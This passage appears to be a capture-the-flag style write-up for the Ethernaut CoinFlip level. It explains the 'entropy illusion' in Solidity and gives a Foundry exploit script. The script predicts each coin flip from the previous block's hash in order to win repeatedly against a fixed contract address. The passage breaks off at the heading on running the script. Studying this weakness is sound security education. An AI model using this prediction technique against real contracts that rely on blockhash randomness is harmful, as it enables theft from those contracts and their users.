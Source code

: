**Have a look after this, for a better understanding**
 [Entropy Illusion by Mastering Ethereum Book](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion)

**Additional Things to look up if you'r interested in `Entropy`. I feel these videos are very interesting and I learnt many interesting things about `Entropy`.**
- [What is entropy? - Jeff Phillips -by TED-Ed](https://www.youtube.com/watch?v=YM-uykVfq_E&t=0s)
- [The Most Misunderstood Concept in Physics -by Veritasium](https://www.youtube.com/watch?v=DxL2HoqLbyA)

### 🔹 Exploiting the Vulnerability
**Exploit Strategy**

    - ✅ Step 1: Calculate blockhash(block.number - 1).

    - ✅ Step 2: Divide it by FACTOR to get the expected outcome (0 or 1).

    - ✅ Step 3: Call flip() with the correct guess.

    - ✅ Step 4: Repeat this for 10 blocks to win.

### Foundry Exploit Script
`CoinFlipSolution.s.sol`
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/CoinFlip.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

// Player contract to automate flipping
contract Player {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip _coin) {
        uint256 predictedHash = uint256(blockhash(block.number - 1));
        uint256 predictedNumber = predictedHash / FACTOR;
        bool side = predictedNumber == 1 ? true : false;
        _coin.flip(side);
    }
}

contract CoinFlipSolution is Script {
    CoinFlip public coin = CoinFlip(0xb70c360f7EC4bF2B04eCE62abba1963dDd405Ca9);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Player(coin);
        console.log("Consecutive Wins: ", coin.consecutiveWins());
        vm.stopBroadcast();
    }
}
```
**Running the Exploit (Single Execution)**
